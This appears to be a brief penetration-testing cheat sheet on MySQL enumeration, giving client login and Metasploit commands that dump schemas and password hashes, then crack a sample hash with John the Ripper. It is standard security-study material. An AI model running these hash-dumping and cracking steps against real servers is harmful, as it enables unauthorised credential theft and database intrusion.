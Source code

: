 # MySQL

[MySQL](https://www.mysql.com/) is an open-source relational database management system.

## Enumerating

To enumerate MySQL you can use default-mysql-client and metasploit.

When the following conditions are met,

    - We have a password

    - We have a username
use
## MySQL client
```bash
mysql -h [IP] -u [USERNAME] -p
```
## Metasploit
```bash
# start metasploit

msfconsole

# search module

search mysql_sql

# set module, options, and run

use auxiliary/admin/mysql/mysql_sql

show options

exploit

# set SQL show databases
```
When the following conditions are met,

    - we have MySQL server credentials

	- we know the version of MySQL running

	- we know the number of Databases and their names

use Metasploit to extract password hashes.
<br></br>
```bash
# start metasploit

msfconsole

# search, set and run modules

search mysql_schemadump

use auxiliary/scanner/mysql/mysql_schemadump

search mysql_hashdump

use auxiliary/scanner/mysql/mysql_hashdump

# copy extracted hash to file

echo -n 'example:*EA031893AA21444B170FC2162A56978B8CEECE18' > hash.txt

# crack it with john

john hash.txt
```